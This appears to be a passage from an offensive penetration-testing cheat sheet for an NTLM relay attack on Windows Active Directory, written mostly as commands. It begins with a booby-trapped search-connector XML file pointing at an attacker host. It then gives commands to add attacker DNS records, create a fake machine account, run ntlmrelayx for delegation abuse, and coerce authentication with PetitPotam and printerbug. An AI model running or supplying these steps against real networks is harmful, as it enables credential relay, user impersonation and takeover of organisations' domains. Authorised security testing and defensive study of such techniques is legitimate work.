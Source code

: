 ````
<searchConnectorDescription xmlns="http://schemas.microsoft.com/windows/2009/searchConnector">
    <iconReference>imageres.dll,-1002</iconReference>
    <description>Microsoft Outlook</description>
    <isSearchOnlyItem>false</isSearchOnlyItem>
    <includeInStartMenuScope>true</includeInStartMenuScope>
    <iconReference>//<ATTACKER IP>/test.ico</iconReference>
    <templateInfo>
        <folderType>{91475FE5-586B-4EBA-8D75-D17434B8CDF6}</folderType>
    </templateInfo>
    <simpleLocation>
        <url>//<ATTACKER IP>/test</url>
    </simpleLocation>
</searchConnectorDescription>
```

#### If got shell on target, activate webclient
- https://github.com/eversinc33/SharpStartWebclient

#### Create a DNS record pointing to the attacker's machine IP
- https://github.com/dirkjanm/krbrelayx/blob/master/dnstool.py
- https://github.com/Kevin-Robertson/Powermad/blob/master/Invoke-DNSUpdate.ps1
- When the tools throw errors like `NoSuchObject` try the `--legacy` or `--forest` with `dnstool.py` or the `-Partition` parameter from PowerMad.
```
dnstool.py -u <DOMAIN>\<USER> -a add -r <HOSTNAME> -d <ATTACKER IP> <DC IP>

$creds = get-credential
Invoke-DNSUpdate -DNSType A -DNSName <HOSTNAME> -DNSData <IP ATTACKING MACHINE> -Credential $creds -Realm <DOMAIN>
```

#### Create a new computer object
- If not already owning an account with SPN
- https://github.com/Kevin-Robertson/Powermad
- https://github.com/SecureAuthCorp/impacket/blob/master/examples/addcomputer.py
```
import-module Powermad.ps1 
New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose

python3 addcomputer.py -computer-name FAKE01 -computer-pass '123456' <DOMAIN>/<USER>:<PASS> -dc-ip <DC IP>
```

#### Start NTLMRelay
- Or use `ldaps://<DC IP>` if it doesn't require binding and ldap requires signing
```
sudo ntlmrelayx.py -t ldap://<DC IP> --http-port 8080 --delegate-access --escalate-user FAKE01$
```

#### Trigger target to authenticate to attacker machine
- Use hostname we created in the DNS record
- https://github.com/topotam/PetitPotam
- https://github.com/dirkjanm/krbrelayx
```
python3 PetitPotam.py -d <DOMAIN> -u <USER> -p <PASSWORD> <HOSTNAME ATTACKER MACHINE>@8080/a <TARGET>

python3 printerbug.py <DOMAIN>/<USER>@<TARGET> <HOSTNAME ATTACKER MACHINE>@8080/a
```

#### Select user to impersonate
- Preferably a user that would be admin on the machine (Check BloodHound). Maybe another command to check if user is admin on a machine? Is that possible? We should check!
````